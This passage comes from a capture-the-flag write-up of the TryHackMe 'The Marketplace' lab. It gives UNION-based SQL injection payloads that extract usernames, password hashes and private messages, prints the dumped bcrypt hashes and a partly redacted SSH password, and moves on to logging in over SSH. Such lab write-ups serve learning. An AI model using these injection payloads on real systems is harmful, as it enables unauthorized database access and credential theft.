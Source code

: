 **Data from table `messages`:**
```
1:1:3:Hello! An automated syst
2:1:4:Thank you for your report
```

**Data from table `items`:**
```
1:2:Dell Laptop:Good as new. :8
2:3:A cactus:Yep, that's a cact
```

However, did you notice something's wrong? Look at the data in table `messages`, it's not the full output.

To fix this, we have to change our payload.

I found that we can also use **UNION**.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/The-Marketplace/images/a48.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/The-Marketplace/images/a49.png)

**Let's use UNION to retrieve all data from tables `users` and `messages` !**
```sql
0 UNION ALL SELECT concat(username,0x3a,password),NULL,NULL,NULL FROM users LIMIT 0,1--
0 UNION ALL SELECT concat(username,0x3a,password),NULL,NULL,NULL FROM users LIMIT 1,1--
0 UNION ALL SELECT concat(username,0x3a,password),NULL,NULL,NULL FROM users LIMIT 2,1--

0 UNION ALL SELECT concat(user_to,0x3a,message_content),NULL,NULL,NULL FROM messages LIMIT 0,1--
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/The-Marketplace/images/a50.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/The-Marketplace/images/a51.png)

**Full credentials:**
```
system:$2b$10$83pRYaR/d4ZWJVEex.lxu.Xs1a/TNDBWIUmB4z.R0DT0MSGIGzsgW
michael:$2b$10$yaYKN53QQ6ZvPzHGAlmqiOwGt8DXLAO5u2844yUlvu2EXwQDGf/1q
jake:$2b$10$/DkSlJB4L85SCNhS.IxcfeNpEBn.VkyLvQ2Tk9p2SDsiVcCRb4ukG
```

**Full data from table `messages`:**
```
3:Hello! An automated system has detected your SSH password is too weak and needs to be changed. You have been generated a new temporary password. Your new password is: @b_{Redacted}
```

Also, we know `id:3` is user `jake` from "Administration panel".

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/The-Marketplace/images/a52.png)

Now, let's login to user `jake` via SSH!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/The-Marketplace/images/a53.png)
